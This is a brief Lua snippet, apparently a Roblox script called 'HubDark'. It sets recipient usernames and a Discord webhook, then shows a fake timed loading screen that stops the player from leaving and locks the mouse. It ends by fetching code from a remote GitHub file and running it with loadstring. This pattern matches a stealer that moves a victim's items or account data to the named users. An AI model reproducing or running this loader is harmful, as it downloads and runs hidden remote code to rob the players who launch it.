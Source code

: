 UserName = "PogrzaloCie" UserName2 = "PogrzaloCie" Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy" _G.LoadingScreen = true _G.AntiLeave = true _G.MouseLock = true _G.ScriptName = "HubDark" _G.FirstText = "Script Preparing" _G.SecondText = "Script Loading..." _G.ThirdText = "Almost Done..." _G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes loadstring(game:HttpGet("https://raw.githubusercontent.com/Mordia000/DIAMONDglitch/main/README.md", true))()
